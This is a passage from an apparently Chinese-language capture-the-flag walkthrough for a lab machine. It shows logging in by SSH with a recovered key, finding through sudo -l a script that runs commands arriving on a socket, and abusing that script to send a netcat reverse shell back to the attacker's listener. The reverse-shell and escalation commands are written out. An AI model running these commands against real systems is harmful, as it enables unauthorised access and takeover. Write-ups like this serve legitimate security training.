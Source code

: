 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

把key保存到攻击机上，SSH登录到靶机

```
vi id_rsa  
chmod 600 id_rsa  
ssh user1@10.0.0.113 -i id_rsa
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录成功，再来找找提权信息

```
sudo -l
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

找到可以使用user2用户的身份执行code.py脚本，看一下这个脚本是干什么的

```
cd /home/user2/socket  
cat code.py
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这个脚本会通过socket.SOCK_STREAM接收数据,如果接收到了就会执行收到的命令，验证一下

需要建立两个SSH连接，一个执行code.py，另一个发送数据，另外攻击机上还要监听3333端口用来接收反弹回来的shell

SSH连接1

```
sudo -u user2 /usr/bin/python /home/user2/socket/code.py
```

SSH连接2

```
echo 'nc 10.0.0.3 3333 -e "/bin/bash"' | socat - UNIX-CLIENT:/home/user2/socket/socket_test.s
```

攻击机

```
nc -lvvp 3333
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

接收到shell，切换下交互式shell

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

切换完成，寻找提权的方法

```
cd /home/user3  
ls -al
```
